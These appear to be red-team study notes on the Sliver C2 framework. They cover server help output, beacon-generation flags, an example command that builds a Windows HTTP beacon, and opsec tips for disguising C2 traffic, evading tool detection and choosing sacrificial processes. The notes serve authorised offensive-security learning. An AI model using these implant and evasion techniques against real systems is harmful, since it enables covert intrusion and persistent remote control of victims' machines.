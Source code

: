 - Start `sliver-server`
- Help options
```bash
[server] sliver > help

Commands:
=========
  clear       clear the screen
  exit        exit the shell
  help        use 'help [command]' for command help
  monitor     Monitor threat intel platforms for Sliver implants
  wg-config   Generate a new WireGuard client config
  wg-portfwd  List ports forwarded by the WireGuard tun interface
  wg-socks    List socks servers listening on the WireGuard tun interface


Generic:
========
  aliases           List current aliases
  armory            Automatically download and install extensions/aliases
  background        Background an active session
  beacons           Manage beacons
  builders          List external builders
  canaries          List previously generated canaries
  cursed            Chrome/electron post-exploitation tool kit (∩｀-´)⊃━☆ﾟ.*･｡ﾟ
  dns               Start a DNS listener
  generate          Generate an implant binary
  hosts             Manage the database of hosts
  http              Start an HTTP listener
  https             Start an HTTPS listener
  implants          List implant builds
  jobs              Job control
  licenses          Open source licenses
  loot              Manage the server's loot store
  mtls              Start an mTLS listener
  prelude-operator  Manage connection to Prelude's Operator
  profiles          List existing profiles
  reaction          Manage automatic reactions to events
  regenerate        Regenerate an implant
  sessions          Session management
  settings          Manage client settings
  stage-listener    Start a stager listener
  tasks             Beacon task management
  update            Check for updates
  use               Switch the active session or beacon
  version           Display version information
  websites          Host static content (used with HTTP C2)
  wg                Start a WireGuard listener


Multiplayer:
============
  kick-operator  Kick an operator from the server
  multiplayer    Enable multiplayer mode
  new-operator   Create a new operator config file
  operators      Manage operators


For even more information, please see our wiki: https://github.com/BishopFox/sliver/wiki

```
#### Operator profile

Sliver can differentiate who can connect based on the generated profile from its server. A profile can be generated using the `new-operator` command followed by the operator's name (`-n`) and the listening host IP address (`-l`).

## Armory

The previous section introduced us to the [armory](https://github.com/sliverarmory) portion of `Sliver`. Its capability of having pre-installed .NET binaries ready to be used makes the operators' lives easier. However, one of the drawbacks that one might stumble upon is the detection of the tools. In the future, we may need to think of a way to change the internals of the tools to avoid being detected.

## Beacon vs Session

- beacon responds at fixed intervals
- sessions are interactive
- a beacon can be turned into a session

#### Generating a beacon

```
[server] sliver > generate beacon --help

Generate a beacon binary

Usage:
======
  beacon [flags]

Flags:
======
  -a, --arch               string    cpu architecture (default: amd64)
  -c, --canary             string    canary domain(s)
  -D, --days               int       beacon interval days (default: 0)
  -d, --debug                        enable debug features
  -O, --debug-file         string    path to debug output
  -G, --disable-sgn                  disable shikata ga nai shellcode encoder
  -n, --dns                string    dns connection strings
  -e, --evasion                      enable evasion features  (e.g. overwrite user space hooks)
  -E, --external-builder             use an external builder
  -f, --format             string    Specifies the output formats, valid values are: 'exe', 'shared' (for dynamic libraries), 'service' (see `psexec` for more info) and 'shellcode' (windows only) (default: exe)
  -h, --help                         display help
  -H, --hours              int       beacon interval hours (default: 0)
  -b, --http               string    http(s) connection strings
  -J, --jitter             int       beacon interval jitter in seconds (default: 30)
  -X, --key-exchange       int       wg key-exchange port (default: 1337)
  -w, --limit-datetime     string    limit execution to before datetime
  -x, --limit-domainjoined           limit execution to domain joined machines
  -F, --limit-fileexists   string    limit execution to hosts with this file in the filesystem
  -z, --limit-hostname     string    limit execution to specified hostname
  -L, --limit-locale       string    limit execution to hosts that match this locale
  -y, --limit-username     string    limit execution to specified username
  -k, --max-errors         int       max number of connection errors (default: 1000)
  -M, --minutes            int       beacon interval minutes (default: 0)
  -m, --mtls               string    mtls connection strings
  -N, --name               string    agent name
  -p, --named-pipe         string    named-pipe connection strings
  -o, --os                 string    operating system (default: windows)
  -P, --poll-timeout       int       long poll request timeout (default: 360)
  -j, --reconnect          int       attempt to reconnect every n second(s) (default: 60)
  -R, --run-at-load                  run the implant entrypoint from DllMain/Constructor (shared library only)
  -s, --save               string    directory/file to the binary to
  -S, --seconds            int       beacon interval seconds (default: 60)
  -l, --skip-symbols                 skip symbol obfuscation
  -Z, --strategy           string    specify a connection strategy (r = random, rd = random domain, s = sequential)
  -T, --tcp-comms          int       wg c2 comms port (default: 8888)
  -i, --tcp-pivot          string    tcp-pivot connection strings
  -I, --template           string    implant code template (default: sliver)
  -t, --timeout            int       command timeout in seconds (default: 60)
  -g, --wg                 string    wg connection strings

```

- `-J, --jitter` configures the jitter time of the callback so that the implant will fluctuate based on the value
- `-S, --seconds` sets the time interval of the callback
- beacon modes are `mTLS, HTTP(s), DNS, named pipes, or tcp pivots`
- `--skip-symbols` disables symbol obfuscation

##### Example of generating an obfuscated beacon
```shell-session
generate beacon --http 127.0.0.1 -N http_beacon_obfuscated --os windows
```

#### Listeners
- connect the implant to the C2 server

#### Opsec Note

Though the C2 traffic of Sliver looks legitimate, using HTTPS, MTLS, or WireGuard listeners to establish a more secure channel adds a layer of protection. For the HTTP(S) listener, we can make some modifications to the C2 profile file `~/.sliver/config/http-c2.json`, such as adding a legitimate request or response headers and changing filenames and extensions in URL generation. We can refer to the Sliver wiki to understand the profile file [HTTP(s) under the hood](https://sliver.sh/docs?name=HTTPS+C2).

It is valuable to remember that when interacting with sessions in `Sliver`, the names are usually `RED`, and the beacon ones are in `BLUE`. Knowing that difference can be helpful as the sessions are interactive, and the beacons are not, as mentioned in the previous sections.

### Execute and Execute-Assembly
- both with spawn child processes 

## Privilege Escalation

- https://sliver.sh/docs?name=Aliases+and+Extensions
- Alias is a wrapper around sideload (load and execute a shared library in memory)
- Extensions are artifacts of native code loaded by the implant and passed specific callbacks to return data to the C2 server

- *OPSEC Note: By default, execute-assembly will start a sacrificial process (notepad.exe); this can be changed using the --process and specifying the process.*